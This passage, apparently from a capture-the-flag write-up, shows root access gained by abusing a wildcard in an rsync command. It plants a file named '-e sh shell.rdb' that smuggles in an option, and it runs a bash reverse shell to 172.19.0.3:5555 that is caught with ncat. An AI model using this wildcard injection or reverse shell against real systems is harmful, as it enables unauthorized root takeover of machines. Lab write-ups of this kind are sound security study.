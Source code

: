 rsync is a utility for efficiently transferring and synchronizing files between a computer and an external hard drive and across networked computers by comparing the modification times and sizes of files. It is commonly found on Unix-like operating systems. Rsync is written in C as a single threaded application

### Exploiting WildCard

We can exploit the command that uses the wildcard `*` . If u see closely Its looking for a file in `.rdb` extension, So I created a file as `-e sh shell.rdb` and put my `shell.sh` in the same directory.

```bash
$ cd /tmp
$ cat shell.sh
bash -c "bash -i >& /dev/tcp/172.19.0.3/5555 0>&1"
$ cd f187a0ec71ce99642e4f0afbd441a68b
$ ls
$ cp /tmp/shell.sh shell.rdb
$ echo "" > "-e sh shell.rdb"
$ ls -la
total 16
-rw-r--r-- 1 www-data www-data    1 Aug 19 12:19 -e sh shell.rdb
drwxr-xr-x 2 www-data www-data 4096 Aug 19 12:19 .
drwxr-xr-x 5 root     root     4096 Jul 15  2018 ..
-rw-r--r-- 1 www-data www-data   51 Aug 19 12:19 shell.rdb
```

- -e, --rsh=COMMAND specify the remote shell to use

**Reference:**

- [https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt](https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt)

And started my netcat, Since its inside a container It doesn't have  a connection with my kali machine. So I just used one of the container shells we got already and Uploaded a ncat. And I got shell as root in `www`

```bash
# ./ncat -lvnp 5555
Ncat: Version 6.49BETA1 ( http://nmap.org/ncat )
Ncat: Listening on :::5555
Ncat: Listening on 0.0.0.0:5555
Ncat: Connection from 172.19.0.4.
Ncat: Connection from 172.19.0.4:49770.
bash: cannot set terminal process group (2050): Inappropriate ioctl for device
bash: no job control in this shell
root@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b# whoami
whoami
root
root@www:/tmp# hostname
hostname
www
```

